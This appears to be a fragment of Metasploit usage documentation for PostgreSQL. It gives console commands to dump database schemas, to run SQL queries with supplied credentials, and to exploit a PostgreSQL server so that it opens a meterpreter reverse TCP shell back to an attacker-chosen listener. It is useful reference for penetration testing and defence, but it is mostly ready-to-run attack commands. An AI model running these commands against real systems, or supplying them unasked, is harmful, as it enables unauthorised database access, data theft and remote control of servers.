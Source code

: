 Schema dump:
```
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13 ignored_databases=template1,template0,postgres
```

### PostgreSQL Querying

```
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
```

### PostgreSQL Reverse Shell

```
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64'
```

